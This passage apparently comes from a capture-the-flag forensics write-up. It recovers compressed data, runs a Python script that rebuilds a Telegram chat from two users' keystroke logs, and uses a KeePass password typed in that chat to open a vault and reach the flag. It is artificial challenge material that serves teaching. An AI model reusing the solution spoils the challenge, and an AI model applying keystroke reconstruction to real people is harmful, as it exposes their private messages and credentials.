[*] seq[0] raw(0x44) = 01040401820000000400000038718b0000000100639e00000000000051f1bd2cbe2b69d0c672814298d3f2467dce959f993e55a91b6c88df9c43551cd21b000000000000
[0000] 00000004.00010000.ccc start=0x8b7138 comp=0x1bd2 -> XPRESS out=0x9e63
[*] seq[1] raw(0x44) = 000000008300000004000000688d8b00000001003ab5000000000000667fb50794619985045c5744d7556fa8f4b6d58904145211b2fb1b8060474766ae04000000000000
[0001] 00000004.00010000.ccc start=0x8b8d68 comp=0x4ae -> XPRESS out=0x16d7
[+] Wrote: recovered_dev01.dat
```

#### Telegram Conversation Reconstruction

After recovering recovered_dev01.dat and recovered_dev02.dat, the keystroke operations give us their conversation via Telegram, based on the time field to reconstruct the conversation of the 2 people

```python
import os
from datetime import datetime

def parse_log(file_path):
    entries = []
    with open(file_path, 'r') as f:
        for line in f:
            line = line.strip()
            if line.startswith('["') and line.endswith(']'):
                parts = line[2:-1].split('", ')
                if len(parts) == 2:
                    try:
                        ts = datetime.strptime(parts[0], '%Y-%m-%d %H:%M:%S,%f')
                        entries.append((ts, parts[1]))
                    except:
                        pass
    return entries

# Merge and sort all entries with user labels
all_entries = sorted([(ts, msg, 'dev01') for ts, msg in parse_log('recovered_dev01.dat')] + 
                     [(ts, msg, 'dev02') for ts, msg in parse_log('recovered_dev02.dat')])

# Reconstruct conversation
conversation = []
current_user = None
current_text = []

for ts, msg, user in all_entries:
    if current_user != user and current_text:
        conversation.append(f"{current_user}: {''.join(current_text).strip()}")
        current_text = []
        current_user = user
    if current_user != user:
        current_user = user
    
    if msg.endswith(' pressed'):
        if msg.startswith("'") and msg.endswith("' pressed"):
            current_text.append(msg[1:-9])
        elif msg == 'Key.space pressed':
            current_text.append(' ')
        elif msg == 'Key.enter pressed':
            if current_text:
                conversation.append(f"{current_user}: {''.join(current_text).strip()}")
                current_text = []
        elif msg == 'Key.backspace pressed' and current_text:
            current_text.pop()
        elif not msg.startswith('Key.') and len(msg.split()) == 2:
            current_text.append(msg.split()[0])

# Add remaining
if current_text:
    conversation.append(f"{current_user}: {''.join(current_text).strip()}")

# Print
for line in conversation:
    print(line)
```

```
dev02: telegram
dev02: Hey man, is the Project Starline done yet? The PM team has been pinging me like crazy. The deadline is coming up fast
dev01: Yeah, its done. Everythings packaged already. Just go to the shared folder and pull it down to double-check
dev02: ok let me check xD
dev02: r\\192.168.239.10
dev02: Whats the project password again?
dev01: Dude ... how long have you been on this project and you are still asking like a newbie?
dev02: =))))))) i told u to take care of this one for me. Ill buy you a beer later, deal?
dev01: The password is in keepass. go grab it from there
dev02: OK
dev02: keepass
dev02: ED6zY3HDy1CLRHey, has this build been properly tested?
dev01: Yeah, we tested the hell out of it. QA passed all test cases. This build is stable, no issues at all
dev02: Nice.
dev02: but wait
dev02: this is the version we are sending to the customer for go-live, right?
dev01: Exactly, they can deploy it straight to the production server
dev02: Oh come on ... then rename the file, man. Why does it still have _UAT_ in the name ? the clients gonna think its a test build and complain. Rename it to _Release_ or _Final_ so it looks professional
dev01: Ad damn, you are right, then rename it now xD lol
dev02: Release
```

We get the keepass password `ED6zY3HDy1CLR`. It is used to open the keepass db Dev.kdbx in the Password Manager folder.



#### Final Flag Retrieval

In the Windows group we see entries for each project, each project has a separate password to protect the files in the project. Get the password from the Starline project, we open the file StarlineTicketing_Release_1.0.0.7z and the flag is in the .env file


